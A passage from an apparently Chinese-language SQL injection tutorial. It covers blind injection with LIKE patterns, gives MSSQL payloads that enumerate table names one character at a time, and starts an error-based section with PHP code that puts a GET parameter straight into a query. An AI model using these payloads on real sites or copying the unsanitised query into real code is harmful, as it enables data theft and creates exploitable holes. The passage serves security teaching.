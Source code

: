 在MySQL中，与上述正则类似，我们还可以用`like` 匹配

`select user() like 'ro%'`

![](../../../.gitbook/assets/tu-pian%20%2881%29.png)

注意：

```text
MSSQL所用的正则表达式并不是标准正则表达式 ，该表达式使用 like关键词

default.asp?id=1 AND 1=(SELECT TOP 1 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" and table_name LIKE '[a-z]%' )

该查询语句中，select top 1 是一个组合哦，不要看错了。

如果要查询其它的表名，由于不能像mysql哪样用limit x,1，只能使用 table_name not in (select top x table_name from information_schema.tables) 意义是：表名没有在前x行里，其实查询的就是第x+1行。

例如 查询第二行的表名：

default.asp?id=1 AND 1=(SELECT TOP 1 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" and table_name NOT IN ( SELECT TOP 1 table_name FROM information_schema.tables) and table_name LIKE '[a-z]%' )

表达式的顺序：

'n[a-z]%' -> 'ne[a-z]%' -> 'new[a-z]%' -> 'news[a-z]%' -> TRUE

之所以表达式 news[a-z]查询后返回正确是应为%代表0-n个字符，使用"_"则只能代表一个字符。故确认后续是否还有字符可用如下表达式

'news%' TRUE -> 'news_' FALSE

同理可以用相同的方法获取字段，值。这里就不再详细描述了。
```

#### 报错注入

如下代码：

```text
<?php
$con=mysqli_connect("localhost","root","root","users");
// 检测连接
if (mysqli_connect_errno())
{
    echo "连接失败: " . mysqli_connect_error();
}

$username = $_GET['username'];

if($result = mysqli_query($con,"select * from user where `USERNAME`='".$username."'")){
    echo "ok";
}else{
    echo mysqli_error($con);
```